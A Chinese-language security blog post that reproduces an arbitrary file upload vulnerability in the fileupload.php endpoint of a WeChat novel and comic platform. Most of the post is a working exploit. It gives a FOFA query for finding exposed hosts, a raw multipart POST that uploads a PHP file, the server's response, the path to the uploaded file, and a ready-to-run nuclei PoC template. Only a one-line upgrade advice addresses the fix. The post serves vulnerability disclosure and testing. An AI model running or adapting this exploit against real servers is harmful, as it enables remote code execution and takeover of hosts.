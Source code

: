 #  微信公众号小说漫画系统 fileupload.php 任意文件上传漏洞复现   
原创 fgz  AI与网安   2024-10-10 21:08  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
微信公众号小说漫画系统 fileupload.php 任意文件上传漏洞  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
微信公众号  
小说漫画系统，版本不详 。  
  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
微信公众号小说漫画系统  
内置了丰富的小说和漫画资源，涵盖各类题材和风格，满足不同用户的阅读需求。  
同时，它还支持作者入驻和作品上传。能够支持多终端访问，如微信小程序、H5网页、微信公众号以及原生APP等。该系统  
fileupload.php接口处存在任意文件上传漏洞，请及时修复，否则会导致主机失陷。  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
"/Public/home/mhjs/jquery.js"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPMjTlP4eAgX6Zc4HxQoYayp7zibULEqETNK2WI8dOA4BnjHc5F2noibDhuLibfbMzwZic9GhnOFZ68VQ/640?wx_fmt=png&from=appmsg "")  
  
  
05  
  
—  
  
漏洞复现  
  
  
向靶场发送如下数据包  
```
POST /Public/webuploader/0.1.5/server/fileupload.php HTTP/1.1
Host: X.X.X.X
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 221
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryqvlfcogulumndzor
Accept-Encoding: gzip

------WebKitFormBoundaryqvlfcogulumndzor
Content-Disposition: form-data; name="file"; filename="fpgemjsu.php"
Content-Type: image/jpeg

<?php phpinfo();unlink(__FILE__);?>
------WebKitFormBoundaryqvlfcogulumndzor
```  
  
响应内容如下  
```
HTTP/1.1 200 OK
Connection: close
Transfer-Encoding: chunked
Cache-Control: no-store, no-cache, must-revalidate
Cache-Control: post-check=0, pre-check=0
Content-Type: text/html; charset=UTF-8
Date: Thu, 10 Oct 2024 12:42:56 GMT
Expires: Mon, 26 Jul 1997 05:00:00 GMT
Last-Modified: Thu, 10 Oct 2024 12:42:56 GMT
Pragma: no-cache
Server: nginx
Vary: Accept-Encoding

{"jsonrpc" : "2.0", "result" : null, "id" : "id"}
```  
  
2.访问回显文件  
```
Public/webuploader/0.1.5/server/upload/fpgemjsu.php
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPiaKgKwc8Fy4NUlHoDno5xV3VCYovUicqtLSwIUKibBhUVyRB3BILT4Ouvyaiag6Unq3ZGceicCxJgNHA/640?wx_fmt=png&from=appmsg "")  
  
  
漏洞复现成功  
  
  
  
06  
  
—  
  
nuclei poc  
  
  
poc文件内容如下  
```
id: WeChatOfficialAccountNovelComic-fileupload

info:
  name: 微信公众号小说漫画系统 fileupload.php 任意文件上传漏洞
  author: fgz
  severity: critical
  description: 微信公众号小说漫画系统内置了丰富的小说和漫画资源，涵盖各类题材和风格，满足不同用户的阅读需求。同时，它还支持作者入驻和作品上传。能够支持多终端访问，如微信小程序、H5网页、微信公众号以及原生APP等。该系统fileupload.php接口处存在任意文件上传漏洞，请及时修复，否则会导致主机失陷。
  metadata:
    max-request: 1
    fofa-query: "/Public/home/mhjs/jquery.js"
    verified: true
variables:
  file_name: "{{to_lower(rand_text_alpha(8))}}"
  file_content: "{{to_lower(rand_text_alpha(20))}}"
  rboundary: "{{to_lower(rand_text_alpha(16))}}"
requests:
  - raw:
      - |+
        POST /Public/webuploader/0.1.5/server/fileupload.php HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
        Connection: close
        Content-Type: multipart/form-data; boundary=----WebKitFormBoundary{{rboundary}}
        
        ------WebKitFormBoundary{{rboundary}}
        Content-Disposition: form-data; name="file"; filename="{{file_name}}.php"
        Content-Type: image/jpeg
        
        <?php phpinfo();unlink(__FILE__);?>
        ------WebKitFormBoundary{{rboundary}}

      - |
        GET /Public/webuploader/0.1.5/server/upload/{{file_name}}.php HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
        Accept-Encoding: gzip

    extractors:
      - type: json
        part: body
        name: path
        json:
          - '.name'
        internal: true
    matchers:
      - type: dsl
        dsl:
          - "status_code_1 == 200 && status_code_2 == 200 && contains(body_2, 'PHP Version') && contains(body_2, 'PHP API')"

```  
  
  
  
  
07  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  
  
